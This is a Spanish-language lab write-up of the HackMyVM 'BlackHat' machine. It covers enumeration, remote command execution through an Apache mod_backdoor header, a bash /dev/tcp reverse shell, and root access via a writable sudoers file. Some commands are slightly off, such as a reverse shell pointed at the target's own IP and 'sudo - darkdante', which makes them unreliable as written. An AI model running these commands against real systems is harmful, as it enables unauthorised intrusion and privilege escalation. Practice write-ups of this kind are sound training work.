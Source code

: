 ```yaml
---
layout: post
title: BlackHat
date: 2022-11-29
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Enumeration, PHP, File Edit]
---
```


# BlackHat [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.118 -oG allPorts`
- `nmap -sCV -p80 192.168.1.118 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Como no hemos visto nada interesante vamos a hacer `fuzzing`, en mi caso utilizaré `WFuzz`, una herramienta en `Python`. Antes de eso me fijé que utilizaba `PHP`, por lo que en vez de buscar directorios busqué por archivos `PHP`.

- `wfuzz -u "192.168.1.118/FUZZ.php" -w directory-list-2.3-medium.txt`

Tras unos minutos de espera veremos un archivo `PHP` con el nombre de `phpinfo.php`. Dicho fichero contiene la información de `PHP` representada, por lo que es bastante útil a la hora de descubrir cosas.

Bien, tras un rato mirando me fijé en `Loaded Modules`, había un módulo algo extraño llamado `mod_backdoor`. Busqué información sobre éste módulo y llegué a un `script` en `Python` hecho por [`WangYihang`](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/master/exploit.py) el cual si inspeccionamos el código veremos que para enviar un comando utiliza el `header` `Backdoor`.

Sabiendo esto podemos crear nosotros mismos esa petición con `CURL`, vamos allá:

- `curl -H "Backdoor: id" http://192.168.1.118`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Vemos que podemos ejecutar comandos de forma remota! Ahora tenemos que ganar una Shell, para ello me copié una Reverse Shell de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) en `Bash`. Antes de enviar el comando nos tenemos que poner es escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Ahora sí estamos preparados para entablar una conexión:

- `curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.1.118/4444 0>&1'" http://192.168.1.118`

Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina me dispuse a listar los usuarios, antes de mirar el archivo `/etc/passwd` me gusta listar el directorio `/home/`. Vemos a un usuario con el nombre `darkdante`.

Tras varios minutos sin conseguir nada como `www-data` ejecuté el siguiente comando:

- `sudo - darkdante`

Wow! No hemos proporcionado contraseña y estamos como `Darkdante`! 

### Subida de privilegios #2
Ahora que ya estamos como `Darkdante` podemos continuar con nuestro objetivo: obtener `root`. Para ello comencé con enumeración básica, aunque no sirvió de nada. Tras un rato me puse a ver los archivos importantes: `/etc/passwd`, `/etc/shadow` (no tenía permisos) y, por último `/etc sudoers`, el cual podía editar.

Vaya sorpresa, generalmente dicho archivo no se puede editar debido a los riesgos que conlleva, pero como se puede editar vamos a poner nuestro nombre de usuario para que pueda ejecutar todo como `root` sin contraseña.

Para ello añadiremos la siguiente línea justo debajo de `root`:

```
darkdante ALL=(ALL:ALL) ALL
```

Una vez hecho lo anterior ejecutamos `sudo su` para ser `root`.

Enhorabuena! Estamos en la máquina como `root`! Qué fácil!